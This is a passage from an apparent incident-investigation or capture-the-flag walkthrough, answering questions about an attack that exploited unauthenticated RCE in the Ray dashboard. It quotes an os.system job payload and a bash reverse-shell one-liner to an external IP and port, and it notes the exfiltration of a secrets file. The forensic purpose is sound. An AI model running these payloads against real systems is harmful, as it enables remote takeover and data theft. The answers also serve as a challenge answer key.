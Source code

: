(A vulnerability allowing unauthenticated RCE via the Ray dashboard)

---

## 8. First Executed Command

**Question:** What was the first command run by the attacker?

Inspecting POST payloads to `/api/jobs`, the job script contained:

```python
import os; os.system('whoami')
```

**Answer:** `whoami`

---

## 9. Reverse Shell Target

**Question:** Where was the reverse shell initiated?

After the initial command, the attacker sent a job with a reverse shell payload that connects back to:

```bash
bash -i >& /dev/tcp/52.150.25.174/1337 0>&1
```

**Answer:** `52.150.25.174:1337`

---

## 10. Reverse Shell Launch Directory

**Question:** From what directory was the reverse shell executed?

The payload and job context show it was run from Ray’s temporary job workspace directory:

**Answer:**  
`/tmp/ray/session_2024-04-12_11-13-55_403523_10331/runtime_resources/working_dir_files/_ray_pkg_bf19252c1fb036e5`

---

## 11. Secrets Exfiltration Job ID

**Question:** What job ID was used to exfiltrate the secrets file?

Another job submission with a different payload uploaded a file (`secret.txt`) to the attacker’s server. The job ID was:

**Answer:** `raysubmit_7WZE36LAkVxbNc1x`

---

## 12. IP Address Change for Exfiltration
